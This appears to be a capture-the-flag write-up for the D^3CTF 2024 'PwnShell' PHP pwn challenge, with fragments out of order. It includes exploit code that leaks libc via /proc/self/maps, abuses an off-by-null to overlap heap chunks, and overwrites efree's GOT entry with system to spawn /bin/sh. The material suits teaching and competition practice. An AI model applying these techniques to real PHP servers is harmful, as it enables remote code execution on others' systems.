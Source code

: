 ```php
	}	
	$libc -= 0x219aa0;
	printf("%x",$libc);

	$heaphp_base = $libc + 0x7af000;
	$sys_addr = $libc + 0x50d60;
	$efree_got_addr = $heaphp_base + 0x4058;
	delete_note(0);
add_note("number0","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa\x00aaaabaaacaaadaaaeaaafaaagaaahaaa\xff\x00\x00\x00\x00\x00\x00\x00" . tobytes($efree_got_addr,8));
	add_note("./readflag","/bin/sh");
	edit_note(1,tobytes($sys_addr,8));
	delete_note(2);

?>	
```

# D^3CTF 2024-PwnShell

I camp up with this pwnable challenge in d^3ctf 2024, to offer an entry-level php pwn challenge. To make it more interesting, I wraped it with a simple file uploading web challenge.

There is an off-by-null in addHacker function. Trigger the off-by-null to forge a fake fd and create a heap overlap to get a arbitary address write permitive. Then we are able to forge the GOT of efree to call system.

Btw the libc address leak can be obtained by including the /proc/self/maps or leaking certain pointers in the heap. That`s two typicall way to obtain adderss leak in php pwn.

```php
<?php  
$heap_base = 0;  
$libc_base = 0;  
$libc = "";  
$mbase = "";  
  
function u64($leak){  
    $leak = strrev($leak);  
    $leak = bin2hex($leak);  
    $leak = hexdec($leak);  
    return $leak;  
}  
  
function p64($addr){  
    $addr = dechex($addr);  
    $addr = hex2bin($addr);  
    $addr = strrev($addr);  
    $addr = str_pad($addr, 8, "\x00");  
    return $addr;  
}  
  
function leakaddr($buffer){  
    global $libc,$mbase;  
    $p = '/([0-9a-f]+)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';  
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .*  \/usr\/local\/lib\/php\/extensions\/no-debug-non-zts-20230831\/vuln.so/';  
    preg_match_all($p, $buffer, $libc);  
    preg_match_all($p1, $buffer, $mbase);  
    return "";  
}  
  
function leak(){  
    global $libc_base, $module_base, $libc, $mbase;  
  
```